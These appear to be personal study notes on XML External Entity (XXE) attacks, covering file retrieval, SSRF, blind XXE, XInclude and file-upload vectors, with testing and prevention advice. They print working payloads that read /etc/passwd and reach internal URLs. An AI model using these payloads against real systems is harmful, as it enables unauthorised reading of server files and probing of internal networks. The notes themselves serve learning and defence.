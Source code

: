 --- ---

<h4>What is XXE?</h4>  

![](https://assets.tryhackme.com/additional/cmn-owasptopten/XXE_600x315.png)

XXE stands for XML External Entity. It is a type of vulnerability that allows an attacker to access sensitive data by injecting external entities into an XML document. This can be used to retrieve data from the targeted system, such as files or network resources, or even to execute arbitrary code. It is important to properly validate and sanitize XML input in order to prevent XXE attacks.

An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.  
  
Types of XXE Attacks:
- Exploiting XXE to retrieves files
- Exploiting XXE to perform SSRF attacks
- Exploiting blind XXE to exfiltrate data out-of-band
- Exploiting blind XXE to retrieve data via error messages
  
- Why we use XML?  
  
	1. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.  
  
	1. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.  
  
	3. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.  
  
	4. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.  
  
- Syntax  
  
	Every XML document mostly starts with what is known as XML Prolog.  

	```Terminal
	<?xml version="1.0" encoding="UTF-8"?>
	```
--- ---

<h4>Exploiting XXE to Retrieve Files</h4>

- Need to modify submitted XML in two ways
	- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to a file.
	- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

- Example -- shopping application checking for stock by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId><
/stockCheck>
```

- Exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></st
ockCheck>
```

Define an external entity (&xxe;) whose value is the contents of /etc/passwd and uses the entity within the productId value.

--- ---

<h2>Exploiting XXE to Perform SSRF Attacks</h2>

- Need to do the following:
	- Define an external XML entity using the URL you want to target
	- Use the defined entity within a data value

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM " http://internal.vulnerable-
website.com/"> ]>
```
--- ---

<h2>Blind XXE Vulnerabilities</h2>

This means that the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

XInclude Attacks
- Server steps
	- Application receives client-submitted data
	- Data is embedded on the server-side into an XML document
	- Document is then parsed

- XInclude
	- Part of the XML specification that allows an XML document to be built from sub-documents
	- Need to reference the XInclude namespace and provide the path to the file that you wish to include

```xml
<foo 
xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text"
href="file:///etc/passwd"/></foo>
```


More info about XML Injection ---> [HERE]([[3 - XML]])

--- ---

<h2>XXE Attacks via File Upload</h2>

- If a server allows the upload of DOCX or SVG, XXE can be embedded in these documents
- When the document is processed by the application, it will trigger the exploit XXE Attack via Modified Content Type

- Normal Request example:
```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 7
foo=bar
```

- If the server tolerates this, you can exploit it
```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52
<?xml version="1.0" encoding="UTF-
8"?><foo>bar</foo>
```

--- ---

<h2>Testing & Prevention</h2>

**How to Find and Test for XXE vulnerabilities**
- Use BurpSuite's Web Vulnerability Scanner
- Manually testing involves the following:
	- Testing for file retrieval by defining an external entity based on a well-known OS file
	- Testing for blind XXE by defining an external entity based on a URL to a system you control
		§ Burp Collaborator Client can be used for this
	- Testing for vulnerab inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack

**How to Prevent XXE Vulnerabilities**
- Disable features that allow an application's XML parsing library to support potentially dangerous XML features that the application does not need
- Disable resolution of external entities
- Disable support for XInclude
	- Done via configuration options or programmatically overriding default behavor.

 --- ---

<h2>Top Injection</h2>

Detect the vulnerability

Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName`. Entities are defined inside the `DOCTYPE` element.

```Terminal
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
---
Types of XXE Attacks:
- Exploiting XXE to retrieves files                                                       ---> [Commands]([[1 - XXE Retrieve Files]])
- Exploiting XXE to perform SSRF attacks                                         ---> [Comamnds]([[2 - XXE SSRF attacks]])
- Exploiting blind XXE to exfiltrate data out-of-band                       ---> [SQL]([[1 - Database]]) & [XML]([[3 - XXE (Blind)]])
- Exploiting blind XXE to retrieve data via error messages              ---> [SQL]([[1 - Database]]) & [XML]([[3 - XXE (Blind)]])
---
